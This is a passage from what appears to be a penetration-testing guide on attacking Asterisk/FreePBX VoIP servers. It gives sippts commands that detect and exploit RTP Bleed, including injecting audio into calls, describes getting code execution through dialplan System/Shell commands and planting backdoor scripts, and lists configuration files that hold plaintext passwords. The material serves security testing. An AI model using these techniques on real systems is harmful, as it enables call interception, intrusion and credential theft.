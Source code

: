 Asterisk and FreePBX have traditionally used the **`NAT=yes` setting**, which enables RTP traffic to bypass authentication, potentially leading to no audio or one-way audio on calls.

For more info check [https://www.rtpbleed.com/](https://www.rtpbleed.com/)

* **`rtpbleed.py`** from [**sippts**](https://github.com/Pepelux/sippts)**:** It detects the RTP Bleed vulnerability sending RTP streams

```bash
python3 rtpbleed.py -i 10.10.0.10
```

* **`rtcpbleed.py`** from [**sippts**](https://github.com/Pepelux/sippts)**:** It detects the RTP Bleed vulnerability sending RTP streams

```bash
python3 rtcpbleed.py -i 10.10.0.10
```

* **`rtpbleedflood.py`** from [**sippts**](https://github.com/Pepelux/sippts)**:** Exploit the RTP Bleed vulnerability sending RTP streams

```bash
python3 rtpbleedflood.py -i 10.10.0.10 -p 10070 -v
```

* **`rtpbleedinject.py`** from [**sippts**](https://github.com/Pepelux/sippts)**:** Exploit the RTP Bleed vulnerability sending RTP streams (from an audio file)

```bash
python3 rtpbleedinject.py -i 10.10.0.10 -p 10070 -f audio.wav
```

### RCE

In Asterisk you somehow manage to be able to **add extension rules and reload them** (for example by compromising a vulnerable web manager server), it's possible to get RCE using the **`System`** command.

```scss
same => n,System(echo "Called at $(date)" >> /tmp/call_log.txt)
```

There is command called **`Shell`** that could be used **instead of `System`** to execute system commands if necessary.

{% hint style="warning" %}
If the server is **disallowing the use of certain characters** in the **`System`** command (like in Elastix), check if the web server allows to **create files somehow inside the system** (like in Elastix or trixbox), and use it to **create a backdoor script** and then use **`System`** to **execute** that **script**.
{% endhint %}

#### Interesting local files and permissions

* **`sip.conf`** -> Contains the password of SIP users.
* If the **Asterisk server is running as root**, you could compromise root
* **mysql root user** might **doesn't have any password**.
  * this could be used to create a new mysql user as backdoor
* **`FreePBX`**
  * **`amportal.conf`** -> Contains the password of the web panel administrator (FreePBX)
  * **`FreePBX.conf`** -> Constains the password of the user FreePBXuser used to access the database
    * this could be used to create a new mysql user as backdoor
* **`Elastix`**
  * **`Elastix.conf`** -> Contains several passwords in clear text like mysql root pass, IMAPd pass, web admin pass
* **Several folders** will belong to the compromised asterisk user (if not running as root). This user can read the previous files and also controls the configuration, so he could make Asterisk to load other backdoored binaries when executed.
